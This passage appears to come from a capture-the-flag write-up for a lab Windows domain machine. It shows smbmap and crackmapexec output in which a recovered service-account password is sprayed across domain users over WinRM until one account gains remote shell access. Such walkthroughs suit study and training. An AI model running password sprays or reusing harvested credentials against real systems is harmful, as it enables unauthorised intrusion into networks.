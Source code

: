 Both svc-print and svc-scan use that password. Unfortunately, it these creds didn’t provide anything additional over SMB:

```

root@kali# smbmap -H 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
[+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        HP-MFT01                                                NO ACCESS       HP-MFT01
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share  

```

### Shell

I spent a while trying to enumerate shares with these new users and not finding much. Eventually I tried WinRM, and it turns out that svc-print can PowerShell remote:

```

root@kali# crackmapexec winrm 10.10.10.193 -u users -p '$fab@s3Rv1ce$1' --continue-on-success
WINRM       10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\administrator:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\svc-scan:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1

```
